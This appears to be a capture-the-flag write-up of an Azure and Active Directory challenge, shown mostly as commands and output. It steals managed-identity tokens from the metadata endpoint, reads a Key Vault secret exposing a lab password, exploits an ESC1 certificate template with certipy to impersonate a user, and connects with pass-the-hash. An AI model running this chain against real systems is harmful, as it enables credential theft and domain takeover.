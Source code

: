 # Active Directory

Finding a place to start was a little difficult. I did find the IP address
through another request. I do not remember how many 
different commands I ran first, but the next interesting one was:

```bash
response=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s)
access_token=$(echo $response | python -c 'import sys, json; print (json.load(sys.stdin)["access_token"])')
echo The managed identities for Azure resources access token is $access_token
```

This is used to get a beared token for management resources, and running an 
HTTP request to 

```
https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv?api-version=2022-07-01
```
gave me the following result:


```json
{
    "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv",
    "name": "northpole-ssh-certs-kv",
    "type": "Microsoft.KeyVault/vaults",
    "location": "eastus",
    "tags": {},
    "systemData": {
        "createdBy": "thomas@sanshhc.onmicrosoft.com",
        "createdByType": "User",
        "createdAt": "2023-11-12T01:47:13.059Z",
        "lastModifiedBy": "thomas@sanshhc.onmicrosoft.com",
        "lastModifiedByType": "User",
        "lastModifiedAt": "2023-11-12T01:50:52.742Z"
    },
    "properties": {
        "sku": {
            "family": "A",
            "name": "standard"
        },
        "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
        "accessPolicies": [
            {
                "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
                "objectId": "0bc7ae9d-292d-4742-8830-68d12469d759",
                "permissions": {
                    "keys": [
                        "all"
                    ],
                    "secrets": [
                        "all"
                    ],
                    "certificates": [
                        "all"
                    ],
                    "storage": [
                        "all"
                    ]
                }
            },
            {
                "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
                "objectId": "1b202351-8c85-46f1-81f8-5528e92eb7ce",
                "permissions": {
                    "secrets": [
                        "get"
                    ]
                }
            }
        ],
        "enabledForDeployment": false,
        "enableSoftDelete": true,
        "softDeleteRetentionInDays": 90,
        "vaultUri": "https://northpole-ssh-certs-kv.vault.azure.net/",
        "provisioningState": "Succeeded",
        "publicNetworkAccess": "Enabled"
    }
}
```

The interesting part being the uri for key vault. Changing up the previous
command a little bit, it was possible to get an access token for the vault:


```bash
response=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s)
access_token=$(echo $response | python -c 'import sys, json; print (json.load(sys.stdin)["access_token"])')
echo The managed identities for Azure resources access token is $access_token
```

With this token, I could get information on the secrets from:

```
https://northpole-it-kv.vault.azure.net/secrets/?api-version=7.4
```

And the result was:

```json
{
    "value": [
        {
            "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript",
            "attributes": {
                "enabled": true,
                "created": 1699564823,
                "updated": 1699564823,
                "recoveryLevel": "Recoverable+Purgeable",
                "recoverableDays": 90
            },
            "tags": {}
        }
    ],
    "nextLink": null
}
```

The tmpAddUserScript seemed interesting, so I asked for more info on it:

```
https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=7.4
```

```json
{
    "value": "Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru",
    "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d",
    "attributes": {
        "enabled": true,
        "created": 1699564823,
        "updated": 1699564823,
        "recoveryLevel": "Recoverable+Purgeable",
        "recoverableDays": 90
    },
    "tags": {}
}
```

The convert to SecureString was executed in an unsafe manner, so the password
was saved as plaintext accidentally. This gave me the credentials:

```
Username: elfy
Password: J4`ufC49/J4766
```

First thing to note is, that the password needs an escape character to be used
in commands. I tried out different tools for hours and hours, and tried to 
look into ways to bypass the restriction on the folder through smbclient.
No luck. Finally, running certipy gave some promising results:

```bash
certipy find -u elfy@northpole.local -p J4\`ufC49/J4766 -dc-ip 10.0.0.53
```

Clipping the important part:

```json
    "Certificate Templates": {
        "0": {
            "Template Name": "NorthPoleUsers",
            "Display Name": "NorthPoleUsers",
            "Certificate Authorities": [
                "northpole-npdc01-CA"
            ],
            "Enabled": true,
            "Client Authentication": true,
            "Enrollment Agent": false,
            "Any Purpose": false,
            "Enrollee Supplies Subject": true,
            "Certificate Name Flag": [
                "EnrolleeSuppliesSubject"
            ],
            "Enrollment Flag": [
                "PublishToDs",
                "IncludeSymmetricAlgorithms"
            ],
            "Private Key Flag": [
                "ExportableKey"
            ],
            "Extended Key Usage": [
                "Encrypting File System",
                "Secure Email",
                "Client Authentication"
            ],
            "Requires Manager Approval": false,
            "Requires Key Archival": false,
            "Authorized Signatures Required": 0,
            "Validity Period": "1 year",
            "Renewal Period": "6 weeks",
            "Minimum RSA Key Length": 2048,
            "Permissions": {
                "Enrollment Permissions": {
                    "Enrollment Rights": [
                        "NORTHPOLE.LOCAL\\Domain Admins",
                        "NORTHPOLE.LOCAL\\Domain Users",
                        "NORTHPOLE.LOCAL\\Enterprise Admins"
                    ]
                },
                "Object Control Permissions": {
                    "Owner": "NORTHPOLE.LOCAL\\Enterprise Admins",
                    "Write Owner Principals": [
                        "NORTHPOLE.LOCAL\\Domain Admins",
                        "NORTHPOLE.LOCAL\\Enterprise Admins"
                    ],
                    "Write Dacl Principals": [
                        "NORTHPOLE.LOCAL\\Domain Admins",
                        "NORTHPOLE.LOCAL\\Enterprise Admins"
                    ],
                    "Write Property Principals": [
                        "NORTHPOLE.LOCAL\\Domain Admins",
                        "NORTHPOLE.LOCAL\\Enterprise Admins"
                    ]
                }
            },
            "[!] Vulnerabilities": {
                "ESC1": "'NORTHPOLE.LOCAL\\\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication"
            }
```

Seems like it's possible to get authentication for other users as Domain User,
which is not good but can be exploited here. I looked at some 
[documentation on Certipy](https://github.com/ly4k/Certipy), 
and finally found out how to possibly exploit this vulnerability. The command
I ended up with was:

```bash
certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -dc-ip 10.0.0.53 -template NorthPoleUsers -ca northpole-npdc01-CA -upn wombleycube@northpole.local -dns npdc01.northpole.local
```

Which gave me the file wombleycube_npdc01.pfx. This could further be used
to get the password hash for wombley with:

```bash
certipy auth -pfx wombleycube_npdc01.pfx -dc-ip 10.0.0.53
```

Now that we have the hash, it is just a matter of connecting to the AD with
it:

```bash
./smbclient.py northpole.local/wombleycube@10.0.0.53 -hashes aad3b435b51404eeaad3b43
```

Under FileShare, inside the folder super_secret_research:

```
alabaster@ssh-server-vm:~/impacket$ cat InstructionsForEnteringSatelliteGroundStation.txt
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

And he whispered, 'Now I shall be out of sight;
So through the valley and over the height.'
And he'll silently take his way.
```

Which gives me the flag for the challenge and the passphrase for the next part.
